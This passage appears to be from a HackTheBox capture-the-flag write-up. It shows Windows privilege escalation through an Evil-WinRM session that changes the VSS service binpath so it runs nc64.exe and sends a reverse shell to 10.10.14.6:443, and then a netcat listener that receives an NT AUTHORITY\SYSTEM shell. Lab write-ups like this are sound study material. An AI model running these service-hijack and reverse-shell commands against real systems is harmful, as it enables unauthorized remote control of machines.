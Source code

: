     
    *Evil-WinRM* PS C:\programdata> sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.6 443"
    [SC] ChangeServiceConfig SUCCESS
    *Evil-WinRM* PS C:\programdata> sc.exe start VSS
    [SC] StartService FAILED 1053:
    
    The service did not respond to the start or control request in a timely fashion.
    

The shell comes back and lives past the timeout:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.108 49757
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    nt authority\system
    

[](/2022/05/05/htb-return.html)

